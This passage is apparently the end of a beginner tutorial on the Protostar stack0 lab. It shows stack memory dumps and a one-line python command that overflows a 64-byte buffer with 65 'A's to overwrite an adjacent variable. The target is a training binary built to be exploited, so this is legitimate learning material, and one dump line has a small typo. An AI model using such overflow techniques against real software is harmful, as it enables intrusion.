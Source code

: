 0xbffff7b0:     0xb7fd8304    0xb7fd7ff4       0x08048450    0xbffff7d8

0xbffff7c0:     0xb7ec6365    0xb7ff1040      0x0804845b    0x00000000

0xbffff7d0:     0x08048450   0x00000000     0xbffff858       0xb7eadc76

0xbffff7e0:     0x00000001   0xbffff884         0xbffff88c        0xb7fe1848

0xbffff7f0:      0xbffff840      0xffffffff             0xb7ffeff4        0x0804824b

0xbffff800:     0x00000001   0xbffff840         0xb7ff0626      0xb7fffab0

See the big number of 0x41 digits stored in memory. The 41 is hexadecimal and has the value A.We can also see 0x00 values, which means that there's our modified variable is being stored.

Let's reach the variable!

So, one block of 0x41414141 stores 4 A's. There are 16 blocks. 4 \* 16 is 64. + 1 to write into the modified variable. Let's do that:

```
user@protostar: echo `python -c "print 'A'*65"` | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

And we have changed our variable!

With python we can simply print 65 A letters and pipe it into our binary. Visually it would look like this:

0xbffff770:     0xbffff78c      0x00000001      0xb7fff8f8      0xb7f0186e

0xbffff780:     0xb7fd7ff4     0xb7ec6165      0xbffff798       0x41414141

0xbffff790:     0x41414141   0x41414141     0x414141    0x41414141

0xbffff7a0:     0x41414141     0x41414141     0x41414141        0x41414141

0xbffff7b0:     0x41414141    0x41414141       0x41414141    0x41414141

0xbffff7c0:     0x41414141    0x41414141      0x41414141    0x00000041

0xbffff7d0:     0x08048450   0x00000000     0xbffff858       0xb7eadc76

0xbffff7e0:     0x00000001   0xbffff884         0xbffff88c        0xb7fe1848

0xbffff7f0:      0xbffff840      0xffffffff             0xb7ffeff4        0x0804824b

0xbffff800:     0x00000001   0xbffff840         0xb7ff0626      0xb7fffab0

Hope you liked this introduction!

<figure><img src="https://www.secjuice.com/content/images/2018/10/dribbble_1b.gif" alt=""><figcaption></figcaption></figure>
